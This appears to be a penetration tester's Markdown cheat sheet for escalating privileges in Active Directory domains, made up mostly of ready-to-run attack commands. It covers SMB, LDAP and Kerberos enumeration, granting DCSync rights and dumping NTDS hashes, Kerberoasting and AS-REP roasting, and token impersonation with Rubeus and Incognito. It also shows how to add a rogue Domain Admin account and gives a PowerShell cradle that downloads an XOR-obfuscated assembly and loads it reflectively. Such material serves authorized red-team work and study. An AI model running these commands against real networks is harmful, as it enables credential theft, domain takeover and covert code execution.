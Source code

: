 # Domain escalation

## Tools

- [Bloodhound](https://github.com/BloodHoundAD/BloodHound) with [Sharphound injestor](https://github.com/BloodHoundAD/SharpHound3) or [bloodhound-python injestor](https://github.com/fox-it/BloodHound.py)
- [https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit) (PowerView)
- [RSAT](https://download.microsoft.com/download/1/D/8/1D8B5022-5477-4B9A-8104-6A71FF9D98AB/WindowsTH-RSAT_WS_1709-x64.msu)

> After installing RSAT, you can go to "Users and Computers AD =&gt; View =&gt; Advanced"

```bash
enum4linux -a <target_dc> -u <USER> -p <PASSWORD> -d <domain>
bloodhound.py -d <DOMAIN> -u <user> -p <password> -dc <FQDN-SERVER> -c all
python ldapdomaindump.py -u '<domain>\<user>' -p '<pass>' <target>
sudo ldapsearch -x -LLL -H ldap://webmail.<domain>.fr -D "cn=<cn>" -b "dc=<domain>,dc=<fqdn>" -w '<pass>'
```

---


## **Domain enum**






Get DC IP

```bash
cat /etc/resolv.conf
nslookup <domain>
```

Password policy \(especially lockout threshold for bruteforce\)

```bash
enum4linux -P -o <target>
enum4linux -a <target>
```

### Open shares \(anonymous SMB, NFS, FTP, etc\)

SMB open shares

```bash
smbmap -H IP -r DOSSIER
smbmap -H IP --download DOSSIER

# SMB V1
smbclient -L ///192.168.0.1 -U <user> -c ls [--option='client min protocol=NT1']
mount //10.11.1.136/"Bob Share" /mnt/bob [-o vers=1.0]
```

SMB restricted shares

```bash
smbmap -P 445 -H <target> -u '<user>' -p '<pass>' 
smbget -rR smb://<target>/<share>/ -U <user>
smbclient \\\\<target>\\c$ -U <user>
smbclient -L //<target> -U '<domain>\<user>`
upload .ico .scf => Responder/NTLMrelayx
```


NFS 

```bash
showmount -e <target>
mount <target>:/home/xx /mnt/yy 
```

---

## ACLs
Get ACL

```bash
Get-DomainObjectAcl -Identity <username> -ResolveGUIDs ? { $_.SecurityIdentifier -Match $(ConvertTo-SID <domain>) }
```

add DCSync

```bash
Add-DomainObjectAcl -TargetIdentity "DC=<domain>,DC=<local>" -PrincipalIdentity <username> -Rights DCSync
```

dump ntds 

```bash
meterpreter > dcsync_ntlm <DOMAIN>\<user>
```

## Kerbrute AS-REP

```bash
nmap -p88 --script=krb5-enum-users --script-args krb5-enum-users.realm='megabank.local',userdb=/root/users.txt 10.10.10.169
./kerbrute_linux_amd64 userenum -d <domain> usernames.txt -debug
```

---

## Impersonation Token 

### Tools
- [Rubeus.exe](https://github.com/GhostPack/Rubeus) (DOTNET CSHARP)
- [Tokenvator](https://github.com/0xbadjuju/Tokenvator) (DOTNET CSHARP)
- [Incognito.exe](https://github.com/FSecureLABS/incognito) (Meterpreter extension)
- [TokenManipulation.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/c7985c9bc31e92bb6243c177d7d1d7e68b6f1816/Exfiltration/Invoke-TokenManipulation.ps1)
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)

Reflectively load DOTNET CSHARP Assembly within Powershell (or Cobalt, SilentTrinity etc.) if you cant do it through your C2 Infra :

```powershell
$wc=New-Object System.Net.WebClient;$wc.Headers.Add("User-Agent","Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0");$wc.Proxy=[System.Net.WebRequest]::DefaultWebProxy;$wc.Proxy.Credentials=[System.Net.CredentialCache]::DefaultNetworkCredentials
$k="xxxxxxx";$i=0;[byte[]]$b=([byte[]]($wc.DownloadData("https://xxxxx")))|%{$_-bxor$k[$i++%$k.length]}
[System.Reflection.Assembly]::Load($b) | Out-Null
$parameters=@("arg1", "arg2")
[namespace.Class]::Main($parameters)
```

---

### Kerberos impersonate

Find domain admin accounts 

```bat
net group "Domain Admins" /DOMAIN
net group "Admins du domaine" /DOMAIN
```

Find if one is loggedon somewhere :

```bash
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> --loggedon-users
bloodhound.py -d <domain> -u <user> -p <password> -ns <IP-DC> -c LoggedOn
```

Impersonate kerberos token

```bat
# Rubeus
Rubeus.exe klist
Rubeus.exe dump
Rubeus.exe kerberoast /outfile:roasted_hashes.txt
Rubeus.exe asreproast /outfile:asrep_hashes.txt
Rubeus.exe s4u </ticket:BASE64 | /ticket:FILE.KIRBI> </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI>

#TokenManipulation
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "cmd.exe"


# Incognito loaded by Meterpreter
load incognito 
list_tokens -u
impersonate_token <domain>\\<user> # Double slash is mandatory !

# Incognito standalone executable
Incognito.exe

# CrackMapExec using kerberos ticket
export KRB5CCNAME=<user>.ccache 
sudo cme smb <target> --kerberos -x whoami
```

Create new Domain Admin account 

```bat
net user add <user> <pass> /domain
net group "Domain Admins" <user> /add
```

Check if a computer has the TrustedForDelegation flag enabled

```powershell
Get-ADComputer -Identity <computer_name> -Properties TrustedForDelegation
```

---

### Manual testing

- [secureauth.com](https://www.secureauth.com/blog/kerberos-delegation-spns-and-more/)

### Delegation Explained

- [specterops.io](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)
